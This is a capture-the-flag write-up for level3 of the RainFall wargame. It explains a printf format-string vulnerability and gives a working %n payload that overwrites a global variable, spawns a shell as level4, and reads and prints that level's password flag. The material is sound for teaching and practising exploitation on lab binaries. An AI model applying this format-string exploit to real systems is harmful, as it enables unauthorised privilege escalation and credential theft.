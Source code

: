 scp -P 4242 level3@192.168.56.103:/home/user/level3/level3 /home/zouz/Desktop/level3

We see that main call a function v and that we have to find the right conditions to set the variable m to 0x40 to activate a shell.

fgets() mitigates the problem we had before with gets() by specifying the maximum string length.
The function printf() fetches the arguments from the stack. Unless the stack is marked with a
boundary, printf() does not know that it runs out of the arguments that are provided to
it. In a miss-match case, it will fetch some data that do not belong to this function call.
The function maintains an initial stack pointer, so it knows the location of the parameters in the stack.

```
0x080484d5      call printf        ; sym.imp.printf ; int printf(const char *format)
0x080484da      mov eax, dword [m] ; 0x804988c
0x080484df      cmp eax, 0x40      ; 64
```

we can see that the address we want to redirect is 0x804988c which is the address of the m variable that need to have 64 bytes as a value to pass the cmp. And we can do this with the %n : it's a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.
It expect to meet an address that is why we can't directly act on the variables, trying %4$n to aim 4 bytes after.

r <<< $(python -c "print '\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n'")

(python -c "print '\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n'" && cat) | ./level3

```
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + 60 * 'A' + '%4\$n'" && cat) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

